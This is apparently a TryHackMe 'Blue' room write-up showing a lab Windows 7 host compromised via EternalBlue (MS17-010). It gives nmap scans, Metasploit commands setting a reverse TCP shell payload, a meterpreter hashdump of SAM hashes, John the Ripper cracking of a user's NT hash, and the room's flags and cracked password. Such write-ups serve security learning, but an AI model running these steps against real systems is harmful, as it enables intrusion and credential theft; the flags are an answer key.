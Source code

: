 # Blue

Author: Corbett Stephens || July 14, 2021 || Contact: corbettdstephens@gmail.com

Blue is a TryHackMe room that explores the "Eternal Blue" exploit from older versions of Windows. 

The room can be found [here](https://tryhackme.com/room/blue).

---

The first thing I do is start up openvpn that way I can connect to the TryHackMe rooms.

`sudo openvpn nullbett.ovpn`

## Reconnaissance
Host ip address: `10.10.48.230`

Next, I ping the host to see if I can get a response.

`ping 10.10.48.230`

Response:

<pre>
PING 10.10.48.230 (10.10.48.230) 56(84) bytes of data.
64 bytes from 10.10.48.230: icmp_seq=1 ttl=125 time=180 ms
64 bytes from 10.10.48.230: icmp_seq=2 ttl=125 time=202 ms
64 bytes from 10.10.48.230: icmp_seq=3 ttl=125 time=224 ms
64 bytes from 10.10.48.230: icmp_seq=4 ttl=125 time=144 ms
64 bytes from 10.10.48.230: icmp_seq=5 ttl=125 time=167 ms
64 bytes from 10.10.48.230: icmp_seq=6 ttl=125 time=189 ms
^C64 bytes from 10.10.48.230: icmp_seq=7 ttl=125 time=212 ms
64 bytes from 10.10.48.230: icmp_seq=8 ttl=125 time=235 ms
^C
--- 10.10.48.230 ping statistics ---
8 packets transmitted, 8 received, 0% packet loss, time 7010ms
rtt min/avg/max/mdev = 144.010/193.973/235.202/28.333 ms
</pre>

We can see that the host is up and running, so now I can start with a nmap scan.

I ran the command:

`nmap -p0-1000 -sC -sV -vv 10.10.48.230 -oN initial.nmap`

- "-p0-1000" scans the first 1000 ports
- "-sC" uses the default script for enumeration
- "-sV" tries to specify versions
- "-vv" extra verbosity
- "-oN initial.nmap" writes the output to the file initial.nmap

Looking at the [output](https://github.com/nullbett/tryhackme/blob/main/blue/initial.nmap) I see that three ports are open.

<pre>
PORT    STATE SERVICE      REASON  VERSION
135/tcp open  msrpc        syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
</pre>

I also get a hint that a potential user is "Jon".

The next thing I would do is run another nmap scan to look for vulnerablities. This could be done in the initial nmap scan, but I decided to use two seperate scans. If stealth was a concern then I would do the previous steps differently.

To scan for vulnerabilites I used the same command but changed the script to "vuln".

`nmap -p0-1000 --script vuln -sV -vv 10.10.48.230 -oN vuln.nmap`

Luckily, the results yield some intersting information.

<pre>
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
</pre>

Do to the vuln script I can see that this system is vulnerable to smb-vuln-ms17-010 which allows for remote code execution.

A simple google search of "smb-vuln-ms17-010" will pull up the information about this vulnerability. Reading the first line of the [article](https://nmap.org/nsedoc/scripts/smb-vuln-ms17-010.html) we can see that ms17-010 is also known as "EternalBlue". This is helpful information because it will make it easier to find a module within Metasploit.

---

## Gaining Access

I now want to try to gain futher access on this machine. I have a potential attack vector by using the information on EternalBlue.

The first thing I do is fire up Metasploit!

I use Kali Linux which has Metasploit already installed. All I have to do is hit the home button and search for Metasploit. Once the metasploit shell is spawned the fun can begin. I now look for a module that uses the EternalBlue exploit.

This can be done via: `search eternalblue` in the metasploit shell.

The results I find are as shown below:

![](./pictures/ms_module.png)

The module I want is **exploit/windows/smb/ms17_010_eternalblue** because this uses a windows versions prior to windows 8.

An easy way to select the module you want to use is to enter `use <number>`, so I would enter "use 2" in this case.

Each module has required fields that have to be set before an exploit can be ran. This can be found by entering `options` into the shell. 

![](./pictures/module_options.png)

I need to set the RHOSTS which is the target host that we are attacking. I do this by entering:

`set RHOSTS 10.10.48.230`

In a normal TCP/IP connection, the client will issue a request to the server. The server will then respond the client. The client will respond again a connection will be established. If the server is using a firewall then this normal type of connection will be blocked. When reverse tcp is used, the server initiates a connection to the client (hense reverse). This allows for the client to reply to the server request and establish a connection. The playload that needs to be used is **windows/x64/shell/reverse_tcp**. 

The payload is set by doing `set payload windows/x64/shell/reverse_tcp`.

To run the exploit enter `exploit` or `run`.

If the exploit is successful then a DOS (disk operationg system) shell will appear as shown below.

![](./pictures/dos.png)

If I run "whoami" it says that I am "nt authority\system" which has very sensative user privlages.

I want upgrade this shell to a meterprerter shell as there are a lot of benefits to using a meterpreter shell. I used this [article](https://www.hackingarticles.in/command-shell-to-meterpreter/) to help me figure out how to upgrade my shell. 

To upgrade: `sessions -u 1`

![](./pictures/shell_2_meterpreter.png)

Now that we have our meterpreter shell, we can run "getsystem" to ensure that we are indeed "nt authority\system".

Just because our user is system, doesnt mean that the process is. We will want to switch our process to one that is running "nt authority\system". 


Meterpreter has a handy command to dump the SAM database. SAM is the system accounts manager. The SAM database stores passwords locally. By using the `hashdump` command I can get this data and try to make something useful with it.

I get the following data:

<pre>
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
</pre>

In this case, I am interested in Jon. I created a file named "jon.hash" and put the hash values into the file. To crack this hash, I used John the Ripper which comes default on Kali Linux. I ran the following commands:

`john jon.hash --format=NT --wordlist=./rockyou.txt`
`john jon.hash --format=NT --show`

- "jon.hash" the file reading from
- "--format=NT" NT is the format of the hash that I got from the hash dump. It is common on Windows systems. I had to figure this out by researching the type of hash.
- "wordlist=./rockyou.txt" This uses a large file of common passwords to try to find the user password for Jon.
- "--show" Show the output.
<pre>
Jon:**alqfna22**:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
</pre>

Username: Jon
Password: **alqfna22**

---

## Find Flags
This part is just for answer the questions on TryHackMe.

The first flag can be found in the at the root.

Flag 1: `flag{access_the_machine}`

The second flag is found in config
C:\Windows\system32\config

Flag 2: `flag{sam_database_elevated_access}`

Flag 3 can be found in C:\Users\Jon\Documents

Flag 3: `flag{admin_documents_can_be_valuable}`

---

# Conclusion

This room allowed me to fully execute the famous EternalBlue exploit from top to bottom. In the process, I strengethed my skills in nmap, Metasploit, and John the Ripper. I started my reconnaissance with nmap, developed my attack vector with Metasploit, and derived user credentials with John the Ripper.

Thank you,
Corbett